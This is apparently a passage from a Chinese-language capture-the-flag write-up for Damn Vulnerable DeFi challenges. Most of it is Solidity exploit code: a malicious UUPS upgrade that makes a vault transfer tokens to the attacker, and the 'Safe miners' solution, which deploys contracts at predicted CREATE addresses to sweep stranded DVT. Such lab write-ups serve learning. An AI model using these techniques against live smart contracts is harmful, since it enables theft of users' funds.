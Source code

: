             vault.upgradeTo(address(tokenTransfer));
            vault.transfer(attacker,address(dvt));

      }

       receive() external payable {}
    }


    contract TokenTransfer is Initializable, OwnableUpgradeable, UUPSUpgradeable{
    
        uint256 public constant WITHDRAWAL_LIMIT = 1 ether;
        uint256 public constant WAITING_PERIOD = 15 days;
    
        uint256 private _lastWithdrawalTimestamp;
        address private _sweeper;
    
        constructor() initializer {}
    
        function transfer(address spender, address tokenAddress) external {
            IToken(tokenAddress).transfer(spender, 10000000 ether);
        }
    
        function _authorizeUpgrade(address newImplementation) internal onlyOwner override {}

    }
### 13. Safe miners

该挑战的目标是把一个空地址的所有dvt转走。
由于本身不涉及合约相关，我查询了题解。题目说可以用一些先验知识，给出的信息只有几个地址。考虑用attacker的地址去部署合约，并用部署合约create合约，看看能不能碰撞出这个地址。实际情况是使用attacker部署的第2个地址上，certe的第66个地址即题目中的空地址，可以把代币转走。

    contract SafeMinerAttacker {
        constructor(address attacker, address dvtAddress, uint256 number) {
            for (uint256 idx; idx < number; idx++) {
                new TokenTransfer(attacker, dvtAddress);
            }
        }
    }
    contract TokenTransfer {
        constructor(address attacker, address dvtAddress) {
            IToken dvt = IToken(dvtAddress);
            uint256 balance = dvt.balanceOf(address(this));
            if (balance > 0) {
                dvt.transfer(attacker, balance);
            }
        }
    }


